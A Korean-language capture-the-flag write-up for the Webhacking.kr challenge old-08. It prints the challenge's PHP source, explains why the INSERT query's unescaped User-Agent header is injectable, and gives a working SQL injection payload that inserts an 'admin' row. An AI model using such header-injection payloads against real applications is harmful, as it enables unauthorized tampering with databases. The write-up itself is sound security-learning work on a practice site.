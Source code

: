 ```yaml
---
title: ["[Webhacking.kr] old-08 (sqli - 35)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```

## Intro
```php
<?php
$agent=trim(getenv("HTTP_USER_AGENT"));
$ip=$_SERVER['REMOTE_ADDR'];
if(preg_match("/from/i",$agent)){
  echo("<br>Access Denied!<br><br>");
  echo(htmlspecialchars($agent));
  exit();
}
$db = dbconnect();
$count_ck = mysqli_fetch_array(mysqli_query($db,"select count(id) from chall8"));
if($count_ck[0] >= 70){ mysqli_query($db,"delete from chall8"); }

$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
?>
```

코드에서 사용된 주요 함수들을 정리해보자.  

* `trim()`: 문자열의 앞뒤 공백을 제거하는 함수
  ```php
  $agent = trim(" Mozilla/5.0 "); // "Mozilla/5.0"로 변환
  ```  

* `htmlspecialchars()`: 특수문자를 HTML 엔티티로 변환하여 XSS공격을 방지함
  ```php
  $text = "<script>alert(1)</script>";
  echo htmlspecialchars($text); // &lt;script&gt;alert(1)&lt;/script&gt; 출력
  ```

* `select count(id)`: 테이블의 id 컬럼의 총 행 수를 반환  

* `addslashes()`: `'`, `"`, `\`, `%00` 앞에 `\`를 추가하여 escape하는 함수
  
* `htmlentities()`: `htmlspecialchars`와 비슷하지만 더 많은 문자를 HTML 엔티티로 변환


## Analysis

```sql
select count(id) from chall8
select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'
insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')
```  

3개의 쿼리문이 있다.  
첫번째 쿼리문은 인젝션 포인트가 없고, 두번째 쿼리문의 `addslashes`는 상당히 강력한 함수이다.  
`addslashes` 보다 더 안전한 방식이 많지만, CTF문제를 풀때 `addslashes`를 우회하는 의도의 문제는 본 적이 없다.  

세번재 쿼리문은 인젝션 포인트가 있다.  
두번째 쿼리문처럼 `agent`를 `addslashes`했다면 상당히 어려운 문제가 됐거나 해결이 불가능할 수 있었다.  
하지만, `$agent=trim(getenv("HTTP_USER_AGENT"));` trim만 한 문자열이 들어며, `User-Agent`는 쉽게 조작할 수 있으므로 인젝션이 가능하다.  


## Payload

`User-Agent`를 `test','1.1.1.1','admin')#`로 설정하고 페이지에 접속하면 insert 쿼리문이 실행된다.  
```sql
insert into chall8(agent,ip,id) values('test','1.1.1.1','admin')#','ip','guest')
```  
`#`을 이용해 뒷부분을 주석처리하고, 원하는 데이터를 insert한다.

`User-Agent`를 `test`로 설정하고 접속하면,  
```sql
select id from chall8 where agent='test'
```  
쿼리문이 요청되며, 방금 insert한 데이터가 출력된다.
